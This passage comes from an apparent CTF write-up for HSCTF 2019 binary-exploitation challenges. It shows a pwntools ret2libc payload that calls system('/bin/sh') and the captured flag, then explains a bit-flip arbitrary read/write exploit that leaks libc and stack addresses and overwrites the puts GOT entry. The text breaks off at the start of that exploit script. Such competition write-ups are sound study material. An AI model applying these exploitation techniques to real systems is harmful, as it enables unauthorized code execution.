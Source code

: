 ```python
system_addr = libc_base + 0x045390

payload = 'a'*(8+8)
payload += call(system_addr, bin_sh_addr, None, None)
sh.sendlineafter(': ', payload)

sh.interactive()
sh.close()
```

```
$ python main.py r
...
`[*] Switching to interactive mode`
$ cat flag
hsctf{i_thought_konami_code_would_work_here}
```

flag: `hsctf{i_thought_konami_code_would_work_here}`

# Bit

## Problem

Written by: Arinerron

Just get the flippin' flag.

`nc pwn.hsctf.com 4444`

[bit](/blog/2019-06-08-hsctf-writeup/Bit/bit)

## Solution

The bit flip function can act as an arbitrary write and an arbitrary read. The problem is that we can only call flip four times. To bypass this, we can use one call to leak libc_base, one call to [leak stack_base](https://github.com/Naetw/CTF-pwn-tips#leak-stack-address) via the `environ` symbol in libc, and one call to change the counter to negative. After these three calls, we are able to bypass the call limit as the counter is now a large negative number.

After that, we can flip puts_got bit by bit to set it to the win address. In the end, we just have to flip the bit in counter to set it back to positive to exit the program and trigger the win function.

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './bit'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)

if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY
```